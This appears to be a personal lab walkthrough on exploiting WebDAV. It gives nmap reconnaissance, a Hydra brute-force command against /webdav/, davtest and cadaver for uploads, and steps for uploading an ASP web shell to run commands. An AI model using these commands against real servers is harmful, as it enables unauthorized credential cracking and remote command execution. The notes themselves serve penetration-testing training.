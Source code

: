 # WebDAV Vulnerabilities

**Step 1** : Gather information  
Quick scan  
Check which port WebDAV is running (80 in the video)
```bash
nmap -sV -sC 10.2.17.124
```
Gather more information
```bash
nmap -sV -p 80 --script=http-enum 10.2.17.124
```
**Step 2**: Brute force   
On browser, type IP address and path to WebDAV with Step 1  
If it authentication enabled -> Try brute force (`Hydra`)  
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
```
**Step 3**: Use WebDAV  
```bash
davtest -url http://<IP>/webdav
```
When it requires authentication  
Check `Summary` to see which types of files can be excuted
```bash
davtest -auth <username>:<password> -url http://<IP>/webdav
```
Access the contents
```bash
cadaver http://<target IP>/webdav
```
**Step 4**: Make change  
In new Terminal tab command below to see wchich web shell available
```bash
ls -al /usr/share/webshells/
#Output
asp/  aspx/  cfm/  jsp/  laudanum/ perl/  php/  seclists/
```
Choose web shell
```bash
ls -al /usr/share/webshells/asp/
```
Upload the web shell to cadava
```bash
put /usr/share/webshells/asp/webshell.asp
```
On browser, you can see web shell uploaded  
In the file, type command and hit the Run button to run








#### Note
`Hydra`
- Use to crack various protocol from
  FTP, SSH and Web authentication forms
- -L : file with usernames
- -P : file with passwords

`Web Shell`
- A script or program uploaded to a web server  
  that lets an attacker execute commands remotely through a web browser.
